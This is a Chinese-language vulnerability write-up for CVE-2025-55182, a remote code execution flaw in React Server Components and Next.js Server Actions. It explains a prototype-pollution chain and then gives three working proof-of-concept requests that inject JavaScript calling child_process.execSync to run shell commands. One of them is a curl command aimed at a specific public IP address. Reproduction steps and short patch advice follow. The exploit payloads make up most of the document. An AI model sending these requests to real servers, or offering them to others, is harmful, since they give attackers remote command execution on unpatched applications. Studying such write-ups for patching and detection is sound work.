



# 漏洞名称：React Server Components远程代码执行漏洞(CVE-2025-55182)

## 漏洞核心成因
**React Server Components 使用 React Flight 协议进行序列化传输：**
```java
export function requireModule<T>(metadata: ClientReference<T>): T 
{  
    const moduleExports = parcelRequire(metadata[ID]);
    return moduleExports[metadata[NAME]]; // 未验证属性是否存在于对象本身
}
```
**攻击者可以通过原型链污染（Prototype Pollution）访问对象的 <mark>  __proto__</mark> 属性：**
```java
"$1:__proto__:constructor:constructor" → 获取 Function 构造函数
```

## 利用链
>***1、原型污染：通过 __proto__ 污染 Promise 原型链<br>
2、链式引用：使用 $@0 语法引用原始块表示而非解析值<br>
3、函数构造器劫持：通过 _response._formData.get 指向constructor:constructor<br>
4、代码执行：利用 _prefix 字段注入恶意 JavaScript 代码<br>
5、结果回显：通过 Next.js 重定向机制或直接输出泄露执行结果<br>***

## 利用条件
- 使用 React Server Components
- 使用 App Router（Next.js 15.x/16.x）
- 存在 Server Actions 功能

## POC1
```
POST / HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Next-Action: 1  # 关键：触发Next.js的RSC Action处理流程
X-Nextjs-Request-Id: ygdkgols
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
X-Nextjs-Html-Request-Id: 0OySzliul7lMdEUPchXuS
Content-Length: 691

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"
{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\"then\":\"$B1337\"}","_response":{"_prefix":"var res=process.mainModule.require('child_process').execSync('id').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"
"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"
[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--

```
## POC2
```
//curl请求包
curl -X POST http://43.142.85.211:3333 \
  -H "Host: 43.142.85.211:3333" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" \
  -H "Next-Action: /_next/actions/12345" \
  -H "X-Nextjs-RSC: 1" \
  -H "X-Nextjs-Request-Id: test123" \
  -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytest" \
  -H "Cookie: next-auth.csrf-token=282a91439fdaae67734b4dbb6e86bfc189907759c56c1cd60d8d89cc008eb586%7C5c5aab3c7310703aee611cc75f80bfc8e4a10a6f89da163ec0857f2b871d05d8" \
  -d $'------WebKitFormBoundarytest
Content-Disposition: form-data; name="0"

{"then":"$1:__proto__:then","status":"resolved","reason":null,"value":{"then":"$B1337"},"_response":{"_prefix":"var res=require(\'child_process\').execSync(\'whoami\').toString();throw new Error(res);","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}
------WebKitFormBoundarytest
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundarytest
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundarytest--'
```
## POC3
```
//本地复现POC
POST /formaction HTTP/1.1
Host: localhost:3002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----Boundary
Content-Length: 295

------Boundary
Content-Disposition: form-data; name="$ACTION_REF_0"

------Boundary
Content-Disposition: form-data; name="$ACTION_0:0"

{"id":"vm#runInThisContext","bound":["global.process.mainModule.require(\"child_process\").execSync(\"echo %java_home%\").toString()"]}
------Boundary--
```

## 漏洞复现
### 1、本地复现需要node.js环境<br>
https://nodejs.org/en/download

### 2、安装漏洞环境
解压CVE-2025-55182-test.zip<br>

### 3、路径下npm安装
```
npm install
```
### 4、启动漏洞环境
```
npm start
```



### 5、访问http://localhost:3002/





## 修复建议
***1、目前厂商已发布升级补丁以修复漏洞，补丁获取链接<br>
2、临时缓解方案在 WAF、IDS/IPS 中部署基于 POC 的检测规则，识别针对该漏洞的探测与攻击行为。***